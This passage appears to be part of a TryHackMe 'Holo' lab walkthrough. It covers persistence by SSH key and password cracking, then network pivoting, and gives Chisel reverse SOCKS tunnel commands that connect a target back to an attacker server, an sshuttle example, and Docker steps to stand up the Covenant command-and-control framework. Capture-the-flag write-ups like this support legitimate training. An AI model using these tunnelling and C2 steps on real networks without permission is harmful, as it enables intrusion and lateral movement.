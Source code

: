 I used 2 mtds ,
1. Created and droped a ssh key on the `/root/.ssh`
2. cracked the passwords for the users account

![Alt text](/assets/img/tryhackme/Networks/Holo/h19.png) 

# Pivoting Digging a tunnel to nowhere

There are several tools outlined below that can help us in pivoting.
1. sshuttle
2. Chisel
3. Ligolo
4. Metasploit autoroute


To create a SOCKs server with Chisel, you will only need two commands ran on the target and the attacking machine, outlined below.

- On the attacking machine: `./chisel server -p 8000 --reverse`
- On the target machine: `./chisel client <SERVER IP>:8000 R:socks`

Using sshuttle is relatively easy and only requires one command. For sshuttle to work, you only need to specify one parameter, -r . With this parameter, you will specify the user and target like you would for a standard ssh connection. You will also need to specify the CIDR range of the network; this does not require a parameter. Find an example of syntax below.

Syntax: `sshuttle -r ubuntu@10.200.107.33 10.200.107.0/24`

sudo docker run -it -p 7443:7443 -p 80:80 -p 443:443 --name covenant -v /opt/c2/Covenant/Covenant/Data:/app/Data covenant


# Command and Control 
## Command your Foes and Control your Friends

To use covenant, you have to install dotnet framework  using the following [documentation](https://aka.ms/dotnet-core-applaunch?framework=Microsoft.AspNetCore.App&framework_version=3.1.0&arch=arm64&rid=linux-arm64&os=kali.2023.2)

but with me it didn't work, so I had to use docker instead

```bash
git clone --recurse-submodules https://github.com/cobbr/Covenant
cd Covenant/Covenant
docker build -t covenant .
docker run -it -p 7443:7443 -p 80:80 -p 443:443 --name covenant -v /opt/Covenant/Covenant/Data:/app/Data covenant
```
